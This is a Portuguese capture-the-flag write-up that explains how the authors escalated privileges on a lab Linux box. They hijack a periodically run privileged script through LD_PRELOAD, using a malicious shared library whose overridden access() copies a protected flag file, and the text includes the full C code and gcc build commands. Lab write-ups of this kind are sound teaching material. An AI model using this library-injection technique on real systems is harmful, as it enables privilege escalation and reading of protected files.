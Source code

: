 # CTF #4 - Linux Environment 


## Identificação de vulnerabilidades

Primeiramente, começamos por recolher o máximo de informação possível sobre o sistema, de forma a tentar encontrar alguma vulnerabilidade.

O ficheiro **admin_note.txt** deu-nos uma dica que existe uma vulnerabilidade na tmp folder que nos permitiria chegar à flag. Além disso, depois de ler o ficheiro **main.c**, através do comando **cat**, descobrimos que, possivelmente, existe um ficheiro chamado ***flag.txt*** na folder flags.

``` 
cat main.c
```

Por fim, chegamos à conclusão que o script que corre regularmente no servidor tem mais privilégios que nós, por isso deduzimos que o script estaria relacionado com o ataque também.

Finalmente, tentamos aceder à flags folder, mas não tinhamos permissão.
Com estas informações, começamos a construir um plano com o propósito de, de alguma forma, conseguir root privileges e ter acesso ao ficheiro ***flags.txt***.


## Ataque


O ataque consiste em dar override à função **access()** da standard C library, presente no **main.c**, e fazer uma system call através da função **system()** onde usamos o comando **cat** para copiar o que está no ficheiro ***flag.txt*** para um ficheiro criado por nós.

Primeiro, começamos por criar um ficheiro `lib.c`, que terá o código da nossa malicious library:

```
cat > lib.c

#include <stdio.h>
#include <stdlib.h>

int access(const char *pathname, int mode) {
    system("/usr/bin/cat /flags/flag.txt > /tmp/text.txt");
       return 0;
}
```

O ficheiro `/tmp/text.txt` é um ficheiro temporário criado da seguinte forma :

```
touch text.txt
```

Este ficheiro irá conter o que estiver escrito no ficheiro `/flags/flag.txt`, que, em princípio, é a flag.

Depois disso, compilamos o `lib.c` de forma a torná-lo numa library com os seguintes comandos:

```
gcc -fPIC -g -c lib.c
```

E:

```
gcc -shared -o liblib.so.1.0.1 lib.o -lc
```

Por fim, temos que modificar o ficheiro `env` de forma a adicionar a library `liblib.so.1.0.1` à environment variable `LD_PRELOAD` desta forma:

``` 
cat > env
LD_PRELOAD=/tmp/liblib.so.1.0.1
```

Agora, basta esperar que o my_script.sh rode mais uma vez e a flag estará dentro do text.txt.

No nosso caso era `flag{90069b3c95cdd8df71e65ce0fd7ce815}`
